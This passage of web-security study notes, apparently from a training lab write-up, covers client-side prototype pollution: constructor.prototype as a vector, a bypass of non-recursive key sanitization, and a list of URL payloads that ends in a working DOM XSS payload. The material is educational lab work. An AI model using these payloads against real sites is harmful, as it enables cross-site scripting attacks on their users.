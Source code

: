 ```js
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```
As `myObject.constructor.prototype` is equivalent to `myObject`.`__proto__`, this provides an alternative vector for prototype pollution.
### Bypassing flawed key sanitization

An obvious way in which websites attempt to prevent prototype pollution is by sanitizing property keys before merging them into an existing object. However, a common mistake is failing to recursively sanitize the input string. For example, consider the following URL:
```
vulnerable-website.com/?__pro__proto__to__.gadget=payload
```
If the sanitization process just strips the string `__proto__` without repeating this process more than once, this would result in the following URL, which is a potentially valid prototype pollution source:
```
vulnerable-website.com/?__proto__.gadget=payload 
```
### Lab: Client-side prototype pollution via flawed sanitization

This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

-    Find a source that you can use to add arbitrary properties to the global Object.prototype.

-    Identify a gadget property that allows you to execute arbitrary JavaScript.

 -   Combine these to call alert().

In this lab, vary payloads were tested
```
/?__proto__.foo=bar
/?__proto__[foo]=bar
/?constructor.prototype.foo=bar
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```
Final payload:
```
/?__pro__proto__to__[transport_url]=data:,alert(document.domain);
```
### Prototype pollution in external libraries

As we've touched on already, prototype pollution gadgets may occur in third-party libraries that are imported by the application. In this case, we strongly recommend using DOM Invader's prototype pollution features to identify sources and gadgets. Not only is this much quicker, it also ensures you won't miss vulnerabilities that would otherwise be extremely tricky to notice.

